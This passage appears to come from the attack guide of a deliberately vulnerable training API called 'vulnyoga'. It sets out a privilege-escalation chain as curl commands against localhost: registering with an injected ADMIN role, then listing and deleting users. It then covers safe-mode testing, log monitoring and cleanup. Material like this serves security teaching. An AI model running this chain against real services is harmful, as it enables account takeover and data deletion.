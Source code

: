 **Expected Result**: Payment is marked as successful without real payment processing.

## Combined Attack: Privilege Escalation Chain

```bash
# 1. Register as admin (API3)
curl -sX POST http://localhost:3000/api/v1/auth/register \
  -H "Content-Type: application/json" \
  -d '{
    "email":"hacker@demo.local",
    "password":"hacker123",
    "name":"Hacker User",
    "role":"ADMIN"
  }' | jq .

# 2. Login as hacker
HACKER_TOKEN=$(curl -sX POST http://localhost:3000/api/v1/auth/login \
  -H "Content-Type: application/json" \
  -d '{"email":"hacker@demo.local","password":"hacker123"}' | jq -r .token)

# 3. Access all users (API5)
curl -sX GET "http://localhost:3000/api/v1/admin/users" \
  -H "Authorization: Bearer $HACKER_TOKEN" | jq .

# 4. Delete other users
curl -sX DELETE "http://localhost:3000/api/v1/admin/users/1" \
  -H "Authorization: Bearer $HACKER_TOKEN" | jq .
```

## Defensive Testing

To test the secure mode, set `SAFE_MODE=true` in your environment and run the same attacks. They should all fail with appropriate error messages.

## Monitoring

Check the application logs to see security events being logged:

```bash
# Watch logs in real-time
tail -f logs/combined.log | grep -i "vulnerability\|attack\|security"
```

## Cleanup

```bash
# Stop the application
pkill -f "vulnyoga"

# Remove database
rm -f yogastore.db

# Remove logs
rm -rf logs/
```
